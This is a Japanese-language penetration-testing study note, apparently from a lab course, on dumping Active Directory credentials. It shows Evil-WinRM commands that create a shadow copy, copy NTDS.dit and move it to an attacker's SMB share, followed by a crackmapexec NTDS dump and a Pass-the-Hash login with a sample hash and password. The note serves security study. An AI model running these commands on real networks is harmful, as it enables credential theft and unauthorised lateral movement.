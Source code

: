ドメインを含むユーザーアカウントの権限の確認
```shell-session
*Evil-WinRM* PS C:\> net user <ユーザー名>
```

### Cのシャドウコピーの作成
vssadminを使用して、Cドライブまたは管理者がADの初期インストール時に選択した任意のボリュームの[VSS](https://learn.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service)を作成する
- VSSは、PPやシステムを停止しないで、読み書きがアクティブなボリュームのコピーを作成できる
```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

### VSS から NTDS.dit をコピーして、攻撃元に転送する
C:の作成できたVSSから、NTDS.ditファイルだけを抽出する
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy <Shadow Copy Volume Name>\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

転送は、[[Pentest_Technique/File Transfer\|File Transfer]]の「LinuxでSMBサーバーを建てる」の方法で、攻撃元のLinuxを準備する

攻撃先のWindows用のコマンド
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\<攻撃元のIP>\CompData 
```


### CrackMapExecを使うことで自動化する
- 上記と同じ手順をすべて1つのコマンドでできる
- このコマンドを使用すると、VSSを利用して、ターミナルセッション内でNTDS.ditファイルの内容をすばやくキャプチャしてダンプする
- 攻撃元のホストで以下のコマンドを実行
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### ハッシュのクラックとPass-The-Hashでのログイン
- ハッシュのクラックは、SAM攻撃、LSASS攻撃と同様の手法でできる

Pass-The-Hash
- ハッシュを使用して、`Pass-the-Hash`（`PtH`）と呼ばれるタイプの攻撃を使用してシステムで認証
- PtH 攻撃は、[NTLM 認証プロトコル](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials)を利用して、パスワード ハッシュを使用してユーザーを認証する
	- ログインの形式として`username`:`clear-text password`の代わりに、`username`:`password hash`を使用できる

コマンド
```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

ターゲットへの初期侵入後、ネットワーク内で横展開を行う必要がある場合に、Pass-The-Hashを試みることができる

# Windowsでの資格情報ハンティング(Credential Hunting)
- `Credential Hunting`は、ファイルシステム全体とさまざまなアプリケーションを通じて詳細な検索を実行してクレデンシャルを発見するプロセス
